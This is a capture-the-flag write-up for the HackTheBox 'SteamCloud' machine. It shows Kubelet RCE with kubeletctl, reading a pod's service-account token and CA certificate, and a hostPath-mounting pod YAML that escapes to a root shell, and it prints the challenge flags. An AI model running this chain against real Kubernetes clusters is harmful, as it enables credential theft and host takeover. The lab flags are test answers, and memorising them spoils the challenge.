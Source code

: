 ```yaml
---
OS: 
date: 20-06-2025
Time Started: 09:35
Time Ended: 14:09
tags:
  - Linux
  - Easy
  - HTB
---
```


```table-of-contents
```

# Given

SteamCloud is an easy difficulty machine. The port scan reveals that it has a bunch of Kubernetes specific ports open. We cannot not enumerate the Kubernetes API because it requires authentication. Now, as Kubelet allows anonymous access, we can extract a list of all the pods from the K8s cluster by enumerating the Kubelet service. Furthermore, we can get into one of the pods and obtain the keys necessary to authenticate into the Kubernetes API. We can now create and spawn a malicious pod and then use Kubectl to run commands within the pod to read the root flag.

## ip/scope:

# Steps

## Enumeration

Started with an nmap scan of all ports, `nmap -sCV -p- -T3 -oN enum/nmap.out` which showed several open ports

```bash
22/tcp    open  ssh  OpenSSH 7.9p1 Debian 10+deb10u2 (protocol2.0)
2379/tcp  open  ssl/etcd-client?                                             2380/tcp  open  ssl/etcd-server?
8443/tcp  open  ssl/http Golang net/http server
10249/tcp open  http Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
10250/tcp open  ssl/http Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
10256/tcp open  http Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
```

Googling the ports 2379, 2380 led me to finding out that they're from the Kubernetes service. 
![](../../Assets/Pasted%20image%2020250620111842.png)

Checking Hacktricks for Kubernetes, and Kubelet API pentesting showed me how to interact with the Kubelet API. Managed to get some api endpoints which I should be able to normally.

```bash
curl -s https://raw.githubusercontent.com/kubernetes/kubernetes/master/pkg/kubelet/server/server.go | grep 'Path("/'


Path("/run")
Path("/exec")
Path("/attach")
Path("/portForward")
Path("/containerLogs")
```

## Exploiting RCE

 `/run` and `/exec` allow us to run code remotely on the containers. An example of `RCE`. 
 
The `kubeletctl` and `kubectl` binaries for interacting with the kubernetes api, and containers. 

- Run `kubeletctl pods--server 10.10.11.13` to get a list of the pods running on the server.
- We can also use this tool to scan for pods with the RCE vulnerability using `kubeletctl scan rce --server 10.10.11.133`

This shows us that the `nginx` pod is vulnerable to RCE. We can use `kubeletctl exec "id" --server 10.10.11.133 -p nginx -c nginx` to test the RCE.

![](../../Assets/Pasted%20image%2020250620143019.png)

## Initial Foothold

This means we could get the kubernetes server to open a bash shell for us to interact with it. Run `kubeletctl exec "/bin/sh" -s 10.10.11.13 -p nginx -c nginx`

![](../../Assets/Pasted%20image%2020250620143223.png)

### Items to Steal

`token` and `ca/crt` are two files that are located at `/var/run/secrets/kubernetes.io/serviceaccount/`. ==When a pod is created, Kubernetes automatically creates a service account for the pod, and assigns it to the pod by default. The files in the directory are used to authenticate and interact with the Kubernetes API server.==

Use `kubeletctl` to view them, and copy them to our attacking machine.

```bash
kubeletctl run "cat /var/run/secrets/kubernetes.io/serviceaccount/ca.crt" --namespace default --pod nginx --container nginx --server 10.10.11.133 > findings/ca.crt

kubeletctl run "cat /var/run/secrets/kubernetes.io/serviceaccount/token" --namespace default --pod nginx --container nginx --server 10.10.11.133 > findings/token
```

## Privilege Escalation

The idea here is that the kubernetes pods are running on a Linux Machine, and we want to essentially break out of the pod, and into the machine's file system.

We can go about doing this by mounting the machine's file system to a kubernetes pod we create using `kubectl`, the `ca.crt` and `token` files.
In order to create a pod, we'll also need a YAML file describing the pod in question.

```yaml
apiVersion: v1 
kind: Pod
metadata:
  name: 0ni-pod
  namespace: default
spec:
  containers:
  - name: 0ni-pod
    image: nginx:1.14.2
    volumeMounts: 
    - mountPath: /mnt
      name: hostfs
  volumes:
  - name: hostfs
    hostPath:  
      path: /
  automountServiceAccountToken: true
  hostNetwork: true
```

### Add Token to Env Variables

```bash
export token=$(cat findings/token)
```

### Create Pod

```bash
kubectl --token=$token --certificate-authority=ca.crt --server=https://10.10.11.133:8443 apply -f oni.yaml
```

The YAML file specifies a mounted drive called `hostfs`, which has a path of `/` meaning it will map the host machine's root directory.

We can check if this worked by using `kubeletctl` to list the pods running on the server.
![](../../Assets/Pasted%20image%2020250620145547.png)
And now we can connect to our pod by issuing the following command

`kubeletctl exec '/bin/sh' --server 10.10.11.133 -p 0ni-pod -c 0ni-pod`
and we have a root shell.

# Findings

1. Ports:
	1. Kubernetes: 2379, 2380
	2. Kubelet API: 10250
	3. Kube Proxy: 10256
	4. Http/s: 10249, 8443
	5. SSH: 22
2. Exposed Kubelet api endpoints

```bash
Path("/run")
Path("/exec")
Path("/attach")
Path("/portForward")
Path("/containerLogs")
```

3. CA cert and Token files at:
	1. /var/run/secrets/kubernetes.io/serviceaccount/token
	2. /var/run/secrets/kubernetes.io/serviceaccount/ca.crt

# Creds

- ca.crt file
- token file

# Flags

- User: a27d02d84fde582089d2f05e0bb41041
- Root: 3d282f17d9a882f36b8d10c503fec6a9

# Proof

![](../../Assets/Pasted%20image%2020250620131859.png)
![](../../Assets/Pasted%20image%2020250620140707.png)